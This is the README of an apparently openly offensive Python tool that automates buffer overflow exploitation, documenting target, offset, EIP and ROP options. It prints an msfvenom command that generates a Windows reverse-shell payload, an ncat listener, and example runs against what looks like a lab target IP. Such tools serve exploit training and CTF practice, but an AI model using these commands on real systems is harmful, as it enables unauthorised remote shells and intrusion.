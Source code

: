 # bof

Simple script to exploit buffer overdlows

<img src="https://raw.githubusercontent.com/sudoaza/bof/main/images/bof.svg" alt="bof Buffer Overflow exploitation script usage" width="960" />

## Usage

usage: bof.py [-h] -H HOST -p PORT -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS]

Exploit buffer overflows.

Options:
- -h, --help            show this help message and exit
- -H HOST, --host HOST  Target host
- -p PORT, --port PORT  Target port
- -o OFFSET, --offset OFFSET EIP offset
- -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
- -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
- -s SIZE, --size SIZE  Payload size
- -sf SUFFIX, --suffix SUFFIX  Payload suffix, Ie. USER
- -pf PREFIX, --prefix PREFIX Payload prefix, Ie. \n
- -a ARCH, --arch ARCH  Target architecture. Ie. x86 or amd64
- -O OS, --os OS        Target OS. Ie. windows or linux
- -v, --debug           Show debug information


Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

    msfvenom -p windows/shell_reverse_tcp ... -f python -a x86 > shellcode.py

Listen for shell

    ncat -lvp 4444


Run by passing the return address to overwrite EIP

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'


Run by passing a binary and search for a JPM ESP ROP automatically


    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt

